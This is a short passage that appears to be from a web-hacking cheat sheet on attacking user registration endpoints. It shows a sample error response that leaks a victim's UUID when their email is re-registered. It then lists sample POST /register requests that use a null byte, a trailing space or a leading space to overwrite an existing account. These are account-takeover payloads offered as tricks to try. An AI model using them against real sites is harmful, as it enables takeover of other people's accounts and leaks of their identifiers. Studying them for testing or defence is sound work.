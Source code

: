 ##### Registering with victim's email. The response may leak UUID of victim
````
{"error":"this user already exists", 
"ref":"773u-33f5d-3r5v-353v"}
````
#### Register with existing email so that you may overwrite the existing one. Try these tricks
- Use %00 at the end
  ```
  POST /register
  email=exisitng@gmail.com%00&password=password123
  ```
- Use space at the end of the email
    ```
      POST /register
  email=exisitng@gmail.com &password=password123
    ```
- Use space at the begining of the email
```
  POST /register
  email= exisitng@gmail.com&password=password123
```
